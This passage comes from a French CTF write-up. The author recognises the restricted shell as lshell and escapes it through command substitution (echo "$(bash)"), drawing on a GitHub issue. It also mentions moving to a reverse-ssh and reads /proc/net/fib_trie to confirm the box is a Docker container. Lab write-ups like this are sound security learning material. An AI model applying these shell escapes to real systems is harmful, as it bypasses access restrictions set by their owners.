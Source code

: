 Une recherche sur le web pour la phrase *to get the list of allowed commands* nous retourne des références à `lshell` déjà croisé sur [Kioptrix: 1.3](https://github.com/devl00p/blog/blob/db5fe862db386ad078af26f79dd725069530ef5e/ctf_writeups/Solution%20du%20CTF%20Kioptrix:%201.3%20de%20VulnHub.md#i-wont-let-it-happen).

Certaines erreurs sont encore plus parlantes :

```
harrison:~$ cd --help
lshell: --help: No such file or directory
```

Sur Kioptrix je m'en était sorti avec une vulnérabilité dans lshell qui consistait à appeler du code Python mais là ça ne fonctione pas.

J'ai fouillé dans les issues du projet Github de `lshell` et je suis tombé sur celle ci : [Prevent shell execution tag in command parameters](https://github.com/ghantoos/lshell/issues/205)

Cela me permet effectivement d'échapper aux restrictions même si je n'obtiens pas l'output de mes commandes :

```bash
harrison:~$ cat flag.txt
*** forbidden command: cat
harrison:~$ echo "$(cat flag.txt)"
It's not going to be that easy.
harrison:~$ echo "$(bash)"
harrison@harrison:~$ id
harrison@harrison:~$
```

La situation est vite corrigée en passant à un reverse-ssh.

Malgré que le hostname semble choisi par un humain je remarque bien vite que une bonne partie des commandes systèmes sont manquantes et qu'un `.dockerenv` est présent à la racine du système de fichier.

Sans les commandes `ip`, `ifconfig` et `netstat` on peut obtenir notre adresse IP en lisant un fichier particulier qui terminera de confirmer qu'on est dans un container Docker :

```bash
harrison@harrison:/home/harrison$ cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
```